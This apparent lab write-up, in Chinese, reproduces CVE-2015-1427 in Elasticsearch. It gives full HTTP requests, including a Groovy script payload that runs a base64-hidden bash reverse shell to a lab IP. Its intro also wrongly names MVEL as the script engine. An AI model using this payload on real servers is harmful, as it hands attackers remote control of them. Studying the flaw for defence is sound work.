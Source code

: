 # ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞（CVE-2015-1427）

> 漏洞说明

Elasticsearch是一个基于Lucene的搜索服务器。它提供了一个分布式多用户能力的全文搜索引擎，基于RESTful web接口。Elasticsearch是用Java语言开发的，并作为Apache许可条款下的开放源码发布，是一种流行的企业级搜索引擎。

ElasticSearch有脚本运行的功能，能够非常方便地对查询出来的数据再加工处理。  ElasticSearch用的脚本引擎是MVEL，这个引擎没有做什么的防护，所以直接能够运行随意代码。  而在ElasticSearch里，默认配置是打开动态脚本功能的，因此用户能够直接通过http请求，运行随意代码。



> 前提条件



> 利用工具



> 漏洞复现

访问http://192.168.40.77:9200/可以看到es成功启动

![image-20230103001810721](../img/ElasticSearch_CVE-2015-1427/image-20230103001810721.png)

构造请求数据包添加一条数据

```http
POST http://192.168.40.77:9200/website/blog/ HTTP/1.1
Host: 192.168.40.77:9200
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
 "name": "tomato"
}

```

返回201，添加成功

![image-20230103001856045](../img/ElasticSearch_CVE-2015-1427/image-20230103001856045.png)

验证命令执行

![image-20230102121149349](../img/ElasticSearch_CVE-2015-1427/image-20230102121149349.png)

开启本地监听

![image-20230103002009337](../img/ElasticSearch_CVE-2015-1427/image-20230103002009337.png)

将执行命令换成反弹shell语句

```http
POST http://192.168.40.77:9200/_search?pretty HTTP/1.1
Host: 192.168.40.77:9200
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 249

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40MC4xLzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}\").getText()"}}}

```

发送数据包

![image-20230103002100870](../img/ElasticSearch_CVE-2015-1427/image-20230103002100870.png)

成功反弹shell

![image-20230103002114581](../img/ElasticSearch_CVE-2015-1427/image-20230103002114581.png)
